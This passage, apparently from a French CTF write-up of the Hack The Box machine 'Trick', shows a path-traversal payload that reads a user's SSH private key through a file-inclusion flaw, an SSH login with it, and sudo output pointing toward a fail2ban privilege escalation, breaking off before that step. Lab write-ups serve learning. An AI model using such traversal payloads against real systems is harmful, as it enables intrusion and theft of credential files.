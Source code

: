 On sait grâce au /etc/passwd que il y a seulement root et micheal en vrai utilisateurs donc on essaye de récupérer le flag dans le home de micheal et ça marche donc on est bien sur son compte.

Ensuite on peut récupérer ceci:

```bash
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//home/michael/.ssh/id_rsa
```

Donc on a carrément la clé de micheal pour se logger en ssh. On la copie dans un fichier pour l’utiliser.

```bash
chmod 600 michael.creds
ssh michael@10.10.11.166 -i michael.creds
```

On a un foothold !

Réflexe:

```bash
sudo -l

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

On va donc inspecter cet executable

```bash
fail2ban est une application qui analyse les logs de divers services (SSH, Apache, FTP…) en cherchant des correspondances entre des motifs définis dans ses filtres et les entrées des logs. Lorsqu'une correspondance est trouvée une ou plusieurs actions sont exécutées. Typiquement, fail2ban cherche des tentatives répétées de connexions infructueuses dans les fichiers journaux et procède à un bannissement en ajoutant une règle au pare-feu iptables ou nftables pour bannir l'adresse IP de la source.

Il est vivement déconseillé de modifier les fichiers de configuration /etc/fail2ban/fail2ban.conf et /etc/fail2ban/jail.conf (notamment car ils peuvent être écrasés par une mise à jour). Ces fichiers contiennent les configurations de base qu'on peut surcharger au moyen d'un ou plusieurs fichiers enregistrés dans /etc/fail2ban/jail.d
Le fichier /etc/fail2ban/jail.conf doit servir uniquement de référence et de documentation.
```

Dans jail.conf

```bash
#
# Action shortcuts. To be used to define action parameter

# Default banning action (e.g. iptables, iptables-new,
# iptables-multiport, shorewall, etc) It is used to define
# action_* variables. Can be overridden globally or per
# section within jail.local file
banaction = iptables-multiport
banaction_allports = iptables-allports
```
